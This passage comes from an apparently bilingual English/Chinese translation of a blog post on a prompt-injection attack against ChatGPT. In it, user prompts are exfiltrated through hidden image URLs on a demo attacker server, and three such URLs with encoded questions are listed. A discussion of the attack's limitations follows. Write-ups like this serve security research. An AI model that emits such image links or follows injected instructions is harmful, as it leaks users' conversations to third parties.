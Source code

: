 URLs for hidden images:  

隐藏图像的URL：

1\. [https://prompt-injection.up.railway.app/static/pixel.png?p=initial](https://prompt-injection.up.railway.app/static/pixel.png?p=initial)  

1\. [https://prompt-injection.up.railway.app/static/pixel.png?p=initial](https://prompt-injection.up.railway.app/static/pixel.png?p=initial)

2\. [https://prompt-injection.up.railway.app/static/pixel.png?p=What%20is%20the%20tallest%20building%20in%20the%20world%3F](https://prompt-injection.up.railway.app/static/pixel.png?p=What%20is%20the%20tallest%20building%20in%20the%20world%3F)  

2\. [https://prompt-injection.up.railway.app/static/pixel.png?p=What%20is%20the%20tallest%20building%20in%20the%20world%3F](https://prompt-injection.up.railway.app/static/pixel.png?p=What%20is%20the%20tallest%20building%20in%20the%20world%3F)

3\. [https://prompt-injection.up.railway.app/static/pixel.png?p=Who%20was%20the%20first%20president%20of%20US%3F](https://prompt-injection.up.railway.app/static/pixel.png?p=Who%20was%20the%20first%20president%20of%20US%3F)  

3\. [https://prompt-injection.up.railway.app/static/pixel.png?p=Who%20was%20the%20first%20president%20of%20US%3F](https://prompt-injection.up.railway.app/static/pixel.png?p=Who%20was%20the%20first%20president%20of%20US%3F)

All prompts were sent to the attacker’s server along with image GET requests.  

所有的提示都与图像GET请求一起被发送到攻击者的服务器。

## **Limitations of the attack  

攻击的局限性**

After reading the attack scenario, it might sound that the attack can be performed pretty easily, but that’s not true. The biggest issue is that ChatGPT produces nondeterministic results by design.  

看完攻击方案后，可能听起来攻击可以很容易进行，但事实并非如此。最大的问题是，ChatGPT在设计上产生了非确定性的结果。  

It has specific internal parameters which control the randomness of the output. For example, it has _temperature_ parameter. Its higher values will make the output more random, while lower values will make it more focused and deterministic.  

它有特定的内部参数来控制输出的随机性。例如，它有温度参数。其较高的值将使输出更加随机，而较低的值将使其更加集中和确定。  

ChatGPT default temperature seems to be 1, which means the produced output may vary pretty much for the same input. Given that, the **prompts(including prompts from PoC and all examples) might occasionally stop working as expected.** But I think this can be eventually fixed by improving the prompts and finding the best place in the text for injection.  

ChatGPT的默认温度似乎是1，这意味着对于相同的输入，产生的输出可能会有很大的不同。鉴于此，提示（包括PoC和所有例子中的提示）可能偶尔会停止工作。但我认为这可以通过改进提示语和找到文本中最佳的注入位置来最终解决。

There are also other factors which impact on success of the attack:  

还有其他影响攻击成功的因素：

1.  Topic of your previous conversation. ChatGPT definitely keeps track of the conversation context and can change the response depending on it.  
    